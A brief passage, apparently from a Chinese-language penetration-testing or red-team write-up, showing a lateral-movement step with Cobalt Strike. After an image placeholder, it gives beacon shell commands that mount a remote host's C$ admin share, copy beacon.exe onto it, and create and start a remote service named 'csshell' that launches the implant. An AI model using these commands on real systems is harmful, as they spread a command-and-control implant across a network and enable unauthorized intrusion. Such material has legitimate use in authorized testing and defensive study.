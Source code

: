 ![](img/23.png)

之后可复制文件，创建启动服务命令上线CS

```bash
shell net use \\192.168.91.178\c$
shell copy c:\beacon.exe \\192.168.91.178\c$
shell sc \\TALE2B52 create csshell binpath= "c:\beacon.exe"
shell sc \\TALE2B52 start csshell
```
